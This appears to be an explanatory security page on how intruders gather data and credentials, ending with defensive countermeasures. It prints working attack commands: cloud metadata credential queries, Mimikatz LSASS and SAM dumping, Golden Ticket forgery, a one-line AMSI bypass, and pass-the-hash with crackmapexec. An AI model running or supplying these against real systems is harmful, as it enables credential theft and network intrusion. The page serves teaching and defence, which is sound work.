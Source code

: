 # Hoarding like a winter is coming: Strategic stockpiling (2025)

Before attackers [exfiltrate](exfiltration.md) data, they meticulously collect and consolidate sensitive information from compromised 
systems. Below are modern techniques used in 2025, including network reconnaissance and credential harvesting with 
Mimikatz, along with real-world examples.

## Techniques for data collection

Attackers use a mix of automated tools, living-off-the-land binaries (LOLBins), and AI-driven methods to gather data 
stealthily.

### Automated data discovery

* AI-Powered Scanning: Attackers deploy machine learning models to identify high-value files (e.g., financial records, intellectual property) by analyzing file metadata, keywords, and access patterns.
* File Crawling Scripts: Custom PowerShell/Python scripts recursively scan directories for sensitive documents (e.g., *.docx, *.xlsx, *.pdf) and compress them for [exfiltrate](exfiltration.md).

### Network information gathering

Attackers map internal networks to identify lateral movement opportunities. Tools like arp-scan or Nmap list all 
active hosts in a subnet, and for Active Directory (AD) enumeration, BloodHound visualizes AD attack paths by 
ingesting data via SharpHound.

```powershell
Get-ADComputer -Filter * | Select-Object Name, DNSHostName, OperatingSystem  
Get-ADUser -Filter * -Properties * | Select-Object SamAccountName, LastLogonDate  
```

In cloud environments (AWS/Azure), attackers query instance metadata for credentials:

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/  
```

### Credential harvesting with Mimikatz

Mimikatz remains a top tool for stealing credentials from Windows systems, with new evasion techniques:

***Technique 1: LSASS memory dumping***

The classic method extracts plaintext passwords, NTLM hashes, and Kerberos tickets from LSASS memory.

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"  
```

The 2025 evasion uses:

* Process Injection: Mimikatz is loaded into a benign process (e.g., explorer.exe) to bypass EDR.
* AMSI Bypass: Disables Windows Antimalware Scan Interface (AMSI) before execution:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)  
```

***Technique 2: SAM & LSA secrets extraction***

Offline dumping can extract local user hashes from the Security Account Manager (SAM) database.

```bash
mimikatz.exe "lsadump::sam /system:SYSTEM /sam:SAM"  
```

Live System extraction retrieves cached domain credentials from the Local Security Authority (LSA).

```bash
mimikatz.exe "token::elevate" "lsadump::secrets"  
```

***Technique 3: Kerberos ticket theft***

The Golden Ticket Attack Forges Kerberos tickets for persistent domain access.

```bash
mimikatz.exe "kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:hash /ptt"  
```
        
## Example: Collecting network data & credentials

Scenario: Corporate Network Intrusion

### Initial access 

Phishing email → Employee executes malicious macro → C2 beacon established.

### Network recon

Host discovery:

```bash
nmap -sn 192.168.1.0/24  
```

Share enumeration:

```bash
net view \\target-pc /ALL  
```

### Credential harvesting:

Mimikatz execution:

```bash
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'  
```

Lateral movement can use Pass-the-Hash (PtH) with stolen NTLM hashes:
    
```bash
crackmapexec smb 192.168.1.0/24 -u Administrator -H <NTLM_HASH>  
```

## Defensive countermeasures

* Restrict LSASS Access: Enable LSASS Protection (Windows Defender Credential Guard).
* Monitor for Mimikatz Signatures: EDR Alerts: Detect sekurlsa::logonpasswords or unusual process injection.
* Network Segmentation: Limit lateral movement via VLANs and strict firewall rules.

## Specific mitigations (2025)

* AI-Driven Anomaly Detection: Tools like SentinelOne use behavioral AI to block Mimikatz in real-time.
* Zero Trust Architecture: Enforces least-privilege access, reducing credential misuse.

## 2025

In 2025, attackers are refining data collection with AI-driven scanning, advanced Mimikatz evasion, and cloud 
exploitation. Defenders must adopt behavioral detection, Zero Trust, and credential hardening to counter these threats.
